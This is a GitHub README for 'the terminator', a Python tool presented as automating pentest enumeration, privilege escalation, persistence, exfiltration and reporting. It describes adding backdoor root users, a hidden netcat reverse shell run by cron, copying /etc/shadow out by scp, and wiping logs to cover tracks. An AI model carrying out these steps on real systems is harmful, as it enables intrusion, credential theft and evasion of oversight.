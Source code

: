 # the terminator
+++ a tool for automating simple methods for the enumeration, privilege escalation, persistence, exfiltration, and reporting stages of a pentest +++

- *terminator.py is still in testing phase; feel free to use and test it and share your suggestions in the Discussions*
# contents
the terminator automates every stage of pentesting except initial exploitation (there are too many possible ways to get an initial shell for it to be reliably automated, and it can depend on a multitude of nuanced vulnerabilities, so that stage is up to you, good luck!)
- terminator.py - tool for automating simple methods for enumeration, privilege escalation, persistence, exfiltration, and reporting

you can also use the individual scripts in the *indiv-scripts* folder to for an individual stage of the pentest, instead of using terminator.py (which contains all of these by itself)

# how to use
terminator.py is used by itself and is comprised of enum.py, exfil.py, priv.py, pers.py, and report.py. 
for this reason, you can either use terminator.py by itself, or use each of the other scripts individually. because terminator only automates the most common and simple penetration testing procedures, you will still need to put in some manual work if terminator is not successful. this tool is simply to speed up and automate the simple tasks.

- clone the repository to your computer with "git clone https://github.com/suffs811/the-terminator.git"
- if you choose to only download terminator.py and not the entire repo, you will need to specify a directory wordlist for webpage enumeration ("-w" with the "enum" module of terminator.py)

<>note: for full terminator productivity, you will need to run the script *four* separate times:
first on your own machine, second time on the target machine after gaining initial shell, third time on target machine after gaining root privileges, and fourth time on your local machine to compile report.

*for help with usage, use the -h flag or grep for 'usage' in the script (grep "usage" terminator.py)*

*hint: local machine = your own machine*

# syntax
(stage 1-enumerating target from local machine):
- python3 terminator.py enum -t <target_ip_to_enumerate>
(optional: -w <path_to_directory_wordlist> (otherwise, terminator will use default list))

(stage 2-privilege escalation after gaining shell on target machine):
- python3 terminator.py priv

(stage 3-persistence/data exfiltration after gaining root privileges on target machine):
- python3 terminator.py root -u <new_user_name> -p <new_user_passwd> -l <local_ip> -x <local_listening_port>
(optional: -f (bypass root permissions check))

(stage 4-create report on local machine):
- python3 terminator.py report -o <output_file_name>

# details
stage 1 - enumeration
- initial nmap scan to find open ports on host
- secondary nmap scan to identify services running on open ports
- if http in use, run nikto, gobuster, curl robots.txt, and searchsploit for service version exploits
- if smb in use, run enum4linux and nmap scripts to scan smb shares and users
- if ftp in use, run nmap scripts to determine if ftp allows 'anonymous' logon
- if nfs in use, run nmap scripts to identify service status and mounted shares

stage 2 - privilege escalation
- attempt to disable history logging of current session and create current backups of log files
- attempt running sudo-l to find commands user can run as sudo, then run the command if it does not require user interaction; if it does, then print to screen
- find files with suid bitset and if the binary exists in terminator's dictionary, execute the code; if it needs user interaction, print to screen
- run strings on suid files to find commands that do not specify command's full path, then create binary file in /tmp, echo '/bin/bash -p' to file, add /tmp to $PATH, execute binary
- check if /etc/passwd or /etc/shadow are world-writable; if either one is, create password from user input and append new root user to the file; su user for root
- check for root permissions; if not root, suggest manually finding privesc vector

stage 3 - persistence and data exfiltration
- check for root permissions and suggest -f to bypass root check
- if root permissions is true, create password from user input, add new root user to /etc/passwd, /etc/shadow files and add to root group
- create shell script at /dev/shm/.data/data_log containing netcat reverse shell at ip:port from user input
- create cronjob in /etc/crontab to execute the shell script every 5 minutes

- write id,whoami,netstat and /etc/passwd,/etc/shadow,/etc/hosts,/etc/crontab,/etc/exports, and suid files to single file and scp the file to local machine using ip from user input; *scp will prompt for user's root password on local machine*
- cover tracks by clearing log files and history, restoring log files to the copies made during stage 2, deleting all files created by terminator, and deleting terminator.py itself

stage 4 - report writing
- add contents from priv.txt (privilege escalation vector used to gain root privileges), data_exfil.txt (peristence and target machine data) and enum.txt (enumeration data) to .txt file with headings; use -o input for file name

# TO DO
- test final terminator.py script

# credit and license
Copyright (c) 2023 suffs811

https://github.com/suffs811

This project is licensed under the MIT License - see the LICENSE file for details.

directory-list.txt comes from SecLists' common.txt list of directory names. it can be found here: https://github.com/suffs811/SecLists/blob/master/Discovery/Web-Content/common.txt

-+- Leave a comment if you have any questions! -+-
